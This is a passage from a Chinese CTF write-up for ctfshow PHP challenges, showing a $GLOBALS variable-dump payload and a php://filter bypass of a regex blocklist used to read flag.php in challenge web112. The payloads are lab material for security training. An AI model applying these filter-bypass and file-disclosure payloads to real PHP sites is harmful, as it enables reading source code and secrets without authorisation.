 例子：

```php
$a=123;
$b=456;
var_dump($GLOBALS);
123
```

```
["a"]=>
int(123)
["b"]=>
int(456)
```

只要把$GLOBALS赋值给v2，然后v2再赋值给v1,即可将全部变量输出。又因为$v1要匹配到ctfshow

payload：

> ?v1=ctfshow&v2=GLOBALS



## web112

```php
<?php

highlight_file(__FILE__);
error_reporting(0);
function filter($file){
    if(preg_match('/\.\.\/|http|https|data|input|rot13|base64|string/i',$file)){
        die("hacker!");
    }else{
        return $file;
    }
}
$file=$_GET['file'];
if(! is_file($file)){
    highlight_file(filter($file));
}else{
    echo "hacker!";
}
```

>is_file — 判断给定文件名是否为一个正常的文件
>is_file ( string $filename ) : bool

我们的目的是不能让is_file检测出是文件，并且 highlight_file可以识别为文件

直接用不带任何过滤器的filter伪协议

```
file=php://filter/resource=flag.php
```

也可以用一些没有过滤掉的编码方式和转换方式
